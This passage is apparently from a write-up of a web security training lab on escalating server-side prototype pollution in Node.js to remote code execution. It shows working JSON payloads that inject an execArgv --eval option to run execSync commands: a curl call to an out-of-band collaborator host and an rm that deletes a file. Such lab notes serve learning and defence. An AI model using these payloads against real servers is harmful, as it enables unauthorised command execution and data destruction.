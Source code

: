 As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the child process. This can be quite powerful, even enabling you to load additional modules into the environment: 
```bash
"execArgv": [
    "--eval=require('<module>')"
]
```

In addition to fork(), the `child_process` module contains the execSync() method, which executes an arbitrary string as a system command. By chaining these JavaScript and command injection sinks, you can potentially escalate prototype pollution to gain full RCE capability on the server. 

### PRACTITIONER Lab: Remote code execution via server-side prototype pollution
First we try:
```bash
{
    "address_line_1": "Wiener2 HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "2uTj6SbgeYc2VShZL0NYq8J6d80YWcY5",
    "__proto__": {
        "json spaces": 10
    }
}
```

And see that we can pollute the prototype, so we try the next thing:
```bash
{
    "address_line_1": "Wiener2 HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "OlBbLuOjXn178y9mmKUwtytrPyXwmwHX",
    "__proto__": {
        "execArgv": [
            "--eval=require('child_process').execSync('curl https://6fmmq6r6z6pccas90dmc759vdmjd73vs.oastify.com')"
        ]
    }
}
```

And finally:
```bash
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

### Remote code execution via child_process.execSync()
